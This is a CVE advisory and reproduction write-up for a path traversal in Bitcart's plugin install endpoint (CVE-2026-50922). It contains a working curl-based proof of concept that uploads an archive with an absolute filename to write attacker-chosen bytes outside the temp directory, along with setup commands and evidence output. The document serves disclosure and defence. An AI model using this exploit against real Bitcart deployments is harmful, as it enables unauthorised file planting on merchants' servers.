



# CVE-2026-50922 — Path Traversal in Bitcart plugin install (`UploadFile.filename`)

[CVE ID]
CVE-2026-50922

[PRODUCT]
bitcart/bitcart — Bitcart Merchants API (self-hosted crypto payment processing platform)

[VERSION]
master @ `e67a6e7104a0a06f38892f7aacdd72314517d828` (commit `e67a6e7104a0a06f38892f7aacdd72314517d828`, 2026-03-01; `api/version.py` reports 0.10.2.1-dev)

[PROBLEM TYPE]
Directory Traversal (`CWE-22`), yielding an arbitrary-path file write of attacker-controlled bytes

## Description

`POST /plugins/install` (router `api/views/plugins.py`, gated on the `SERVER_MANAGEMENT` auth scope) accepts a multipart file field `plugin` (FastAPI `UploadFile`). `PluginManager.install_plugin()` takes the request-controlled `UploadFile.filename`, only checks that it ends with `.bitcart`, and then joins it into a filesystem path with `os.path.join(temp_dir, filename)` and writes the raw uploaded bytes there with `aiofiles.open(path, "wb")`. Because `os.path.join` ignores the temporary directory when `filename` is absolute (and does not normalize `..` segments), an attacker who supplies a filename such as `/tmp/x.bitcart` (or a traversal chain ending in `.bitcart`) makes the server write the attacker-supplied upload bytes to an arbitrary path outside the intended temp directory — before any manifest validation occurs, so the write persists even when the plugin is subsequently rejected (`{"status":"error","message":"Invalid plugin archive: missing manifest.json"}`).

Vulnerable code: https://github.com/bitcart/bitcart/blob/e67a6e7104a0a06f38892f7aacdd72314517d828/api/services/plugin_manager.py#L141-L148 (sink: L146-L148; tainted source `plugin.filename` at L142; only a suffix check at L143).

## Proof of Concept

### Victim setup

Official deployment via `bitcart/bitcart-docker` (generated compose, backend-only install, no reverse proxy), with the backend image built from the pinned commit (the moving `bitcart/bitcart:stable` tag is 6 months past the pinned commit, so the image was built from source at `e67a6e7` using the upstream `compose/backend.Dockerfile` plus the release image's `conf/.env` runtime config). Condensed from the runbook:

```bash
git clone https://github.com/bitcart/bitcart-docker.git && cd bitcart-docker
NAME=scdd_50922 BITCART_HOST=127.0.0.1 BITCART_INSTALL=backend BITCART_REVERSEPROXY=none \
  BITCART_ENABLE_SSH=false BITCART_CRYPTOS=btc BITCART_BACKEND_PORT=38290 ./build.sh
docker volume create backup_datadir
sed -i 's#image: bitcart/bitcart:stable#image: scdd_50922/bitcart:e67a6e7104a0a06f38892f7aacdd72314517d828#' compose/generated.yml
docker compose -p scdd_50922 -f compose/generated.yml up -d --no-build
# wait until GET http://127.0.0.1:38290/openapi.json succeeds
```

Image prerequisite: `up -d --no-build` requires the locally built backend image `scdd_50922/bitcart:e67a6e7104a0a06f38892f7aacdd72314517d828` to exist beforehand — the recorded session started with it already built (the transcript records its id `sha256:23d0eba166846fa7d437e04439f348fa2626d3402ee745265998408009765607`). The image was built from the pinned-commit source (`git clone bitcart && git checkout e67a6e7104a0a06f38892f7aacdd72314517d828`) using the `compose/backend.Dockerfile` from bitcart-docker master `7dfbe18`, with a build context equivalent to the upstream release CI layout (backend.Dockerfile + scripts/ + `git archive` of the pinned tree), plus `/app/conf/.env` copied verbatim from the official `bitcart/bitcart:0.10.3.0` release image (it supplies in-container service discovery such as `REDIS_HOST`; without it every API request fails with 500). Image provenance was verified by a three-way md5 match of `/app/api/services/plugin_manager.py` between the built image, the pinned source tree, and the official 0.10.3.0 image (`78625d8dbcba0840c9c4ca50fbc621e9`).



### Attack steps

All requests are sent from the local machine against `127.0.0.1:38290`. On a fresh database the first `POST /users` registration becomes the superuser (deployment initialization, not part of the vulnerability); `POST /token` then mints a bearer token carrying the `server_management` scope required by the endpoint.

```bash
BASE="http://127.0.0.1:38290"; TS="$(date +%s)"
# 1) initial admin (fresh DB => is_superuser: true)
curl -sS -X POST "$BASE/users" -H 'Content-Type: application/json' \
  --data "{\"email\":\"scdd${TS}@example.com\",\"password\":\"scdd_pass\",\"is_superuser\":true}"
# 2) token with server_management scope
TOKEN="$(curl -sS -X POST "$BASE/token" -H 'Content-Type: application/json' \
  --data "{\"email\":\"scdd${TS}@example.com\",\"password\":\"scdd_pass\",\"permissions\":[\"server_management\"],\"strict\":true}" \
  | python3 -c 'import json,sys; print(json.load(sys.stdin)["access_token"])')"
# 3) payload: .bitcart (zip, stored) containing a marker
python3 - <<PY
import zipfile
with zipfile.ZipFile("/tmp/scdd_payload.bitcart", "w", zipfile.ZIP_STORED) as zf:
    zf.writestr("scdd_marker.txt", "SCDD50922_MARKER_${TS}\n")
PY
# 4) trigger: multipart filename is an ABSOLUTE PATH ending in .bitcart
curl -sS -X POST "$BASE/plugins/install" \
  -H "Authorization: Bearer $TOKEN" \
  -F "plugin=@/tmp/scdd_payload.bitcart;type=application/octet-stream;filename=/tmp/scdd_bitcart_${TS}.bitcart"
```



### Evidence

The upload returns `{"status":"error","message":"Invalid plugin archive: missing manifest.json"}` — but the archive has already been written to the attacker-chosen absolute path inside the backend container. The target was `rm -f`'d beforehand to rule out false positives:

```
$ docker exec scdd_50922-backend-1 rm -f /tmp/scdd_bitcart_1790575799.bitcart
$ docker exec scdd_50922-backend-1 ls /tmp/scdd_bitcart_1790575799.bitcart
ls: cannot access '/tmp/scdd_bitcart_1790575799.bitcart': No such file or directory
$ curl -sS -X POST http://127.0.0.1:38290/plugins/install -H 'Authorization: Bearer <token>' \
    -F 'plugin=@/tmp/scdd_payload_1790575799.bitcart;type=application/octet-stream;filename=/tmp/scdd_bitcart_1790575799.bitcart'
{"status":"error","message":"Invalid plugin archive: missing manifest.json"}
$ docker exec scdd_50922-backend-1 env TARGET=/tmp/scdd_bitcart_1790575799.bitcart MARK=SCDD50922_MARKER_1790575799 bash -lc \
    'ls -la "$TARGET"; grep -aFo "$MARK" "$TARGET" | head -n 1; python3 -c "import zipfile,sys; z=zipfile.ZipFile(sys.argv[1]); print(z.read(\"scdd_marker.txt\").decode().strip())" "$TARGET"'
-rw-r--r-- 1 electrum electrum 156 Sep 28 06:10 /tmp/scdd_bitcart_1790575799.bitcart
SCDD50922_MARKER_1790575799            <- marker present in raw written bytes
SCDD50922_MARKER_1790575799            <- marker read back from the zip entry
```

Negative controls: without a token the endpoint returns `401 {"detail":"Not authenticated"}`; with a token lacking the scope (e.g. `store_management` only) it returns `403 {"detail":"Not enough permissions"}`; neither rejected request wrote any file.



## Impact

A remote attacker who can reach the Merchants API and holds credentials satisfying the endpoint's authorization gate — a Bearer token with the `SERVER_MANAGEMENT` scope (or `full_control`), normally meaning the instance's superuser/administrator, obtainable on a freshly deployed instance by the first `/users` registration — can write attacker-supplied bytes to an arbitrary filesystem path inside the backend container (any path the `electrum` user may write), because `os.path.join(temp_dir, filename)` is used unsanitized with an absolute (or traversal) multipart filename. Constraints: the chosen filename must end with `.bitcart`, and the written content is the raw uploaded archive bytes (proven with a zip payload; the server also later unpacks valid plugin archives). The write happens before manifest validation, so it persists even for archives the server rejects. Beyond dropping files at arbitrary writable locations (data planting/defacement), the demonstrated E2E primitive is the arbitrary-path write itself: attacker-controlled raw upload bytes at any path the `electrum` user may write, subject to the `.bitcart` filename-suffix constraint. The CVE record additionally describes an "execute arbitrary code" impact; that escalation was not demonstrated in this PoC. It would require overwriting a file that the backend later imports or executes — a plausible but unverified consequence of the write primitive, not shown here.

## Occurrences

- `api/services/plugin_manager.py:L142` — tainted source: `filename = cast(str, plugin.filename)` (request-controlled `UploadFile.filename`)
- `api/services/plugin_manager.py:L143-L144` — only a `.bitcart` suffix check; no basename/normalization/containment validation
- `api/services/plugin_manager.py:L146` — `path = os.path.join(temp_dir, filename)` (absolute filename discards `temp_dir`)
- `api/services/plugin_manager.py:L147-L148` — sink: `aiofiles.open(path, "wb")` + `await f.write(await plugin.read())`
- `api/views/plugins.py:L24-L30` — `POST /plugins/install` endpoint, `Security(..., scopes=[AuthScopes.SERVER_MANAGEMENT])` gate at L28, passes `UploadFile` straight to `install_plugin`

## References

- [CVE-2026-50922](https://www.cve.org/CVERecord?id=CVE-2026-50922)
- [bitcart/bitcart repository](https://github.com/bitcart/bitcart) (vulnerable commit `e67a6e7104a0a06f38892f7aacdd72314517d828`)
- [bitcart/bitcart-docker deployment](https://github.com/bitcart/bitcart-docker)
